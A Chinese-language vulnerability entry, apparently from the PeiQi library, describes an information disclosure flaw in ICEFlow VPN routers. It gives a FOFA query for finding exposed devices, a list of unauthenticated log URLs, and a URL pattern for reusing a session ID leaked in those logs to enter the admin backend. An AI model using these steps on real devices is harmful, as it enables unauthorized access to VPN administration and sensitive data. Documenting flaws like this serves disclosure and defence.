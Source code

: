 ```yaml
---
title: ICEFlow VPN 信息泄露漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - ICEFlow
---
```


# ICEFlow VPN 信息泄露漏洞

## 漏洞描述

ICEFlow VPN 存在信息泄露漏洞，攻击者可以查看日志中的敏感数据来进一步攻击系统

## 漏洞影响

> [!NOTE]
>
> ICEFlow VPN

## FOFA

> [!NOTE]
>
> title="ICEFLOW VPN Router"

## 漏洞复现

可访问的日志 Url

```
系统日志    http://url/log/system.log
VPN日志    http://url/log/vpn.log
访问日志	http://url/log/access.log
告警日志	http://url/log/warn.log
错误日志	http://url/log/error.log
调试日志	http://url/log1/debug.log
移动用户日志 http://url/log/mobile.log
防火墙日志	http://url/log/firewall.log
```

![](/img/20210924013613985610.png)

根据日志信息获得session后，可利用实时登录系统管理后台：

```
http://xxx.xxx.xxx.xxx/cgi-bin/index?oid=10&session_id=xxxxxxxxxxxxxx&l=0
```

## Goby & POC

> [!NOTE]
>
> ICEFlow VPN 信息泄露漏洞

![](/img/20210924013614725926.png)

## 参考文章

https://www.uedbox.com/post/18720/